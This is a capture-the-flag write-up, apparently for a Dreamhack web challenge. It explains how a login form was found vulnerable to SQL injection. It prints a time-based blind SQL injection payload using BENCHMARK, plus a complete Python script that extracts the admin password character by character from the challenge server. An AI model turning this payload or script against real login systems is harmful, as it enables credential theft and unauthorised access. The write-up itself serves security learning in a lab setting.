



# solution

This challenge is definitely sqlI. You can use single comma **'** in username or password field to trigger the server and see the server response an error (so we know the place we put payloads) After that try a list of payloads about sqlI i saw that i can use sqlI based time to get the password, cause you need real password to access.
<br>
And the passwd has 32 characters because of this:
<br>
Here is my payload(after change to bypass filter)

```
' OR IF(ORD(SUBSTR(password, {i}, 1)) = {number} , BENCHMARK(10000000, MD5(1)), 0)#
```

But you are a lazy person like me, you can code to do it manually (or use burpsuite intruder if you dont want to code)

```
import requests
import time

answer = ''

cookies = {
    'session': 'eyJpZCI6eyIgYiI6InUyTVlnRnZzNzE0OUlOL0VqalRWMWc9PSJ9LCJ0cmllcyI6MH0.Zuvmww.BLU-CH0AvppU0VhN2bcALcmSWns'
}

url = 'http://host3.dreamhack.games:17186/login'
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
}

chars = ['48','49','50','51','52','53','54','55','56','57','65','66','67','68','69','70','71','72','73','74','75','76','77','78','79','80','81','82','83','84','85','86','87','88','89','90',
'97','98','99','100','101','102','103','104','105','106','107','108','109','110','111','112','113','114','115','116','117','118','119','120','121','122',
      ]

def test_password_characters():
    global answer
    for i in range(1, 33):
        for number in chars:
            payload = f"' OR IF(ORD(SUBSTR(password, {i}, 1)) = {number} , BENCHMARK(10000000, MD5(1)), 0)#"
            data = {
                'username': 'admin',
                'password': payload
            }
            start_time = time.time()
            requests.post(url, headers=headers, data=data, cookies=cookies)
            end_time = time.time()
            time_done = end_time-start_time

            if time_done > 1.5:
                print(f"Found matching character: {chr(int(number))} at position {i} with {time_done}s")
                answer += chr(int(number))
                break

test_password_characters()

print(f"Found password: {answer}")

r = requests.post(url, headers=headers, data={'username': 'admin', 'password': answer}, cookies=cookies)
print(r.text)

```

and you have the flag:
<br>

**note:**

1. You should run this python code twice of three times if first time you run this code isn't working because the internet, network, dreamhack server and other things relevant can make sqlI based time may not right.
2. you should use ascii or ord, cause the server seem not case-sensitive.
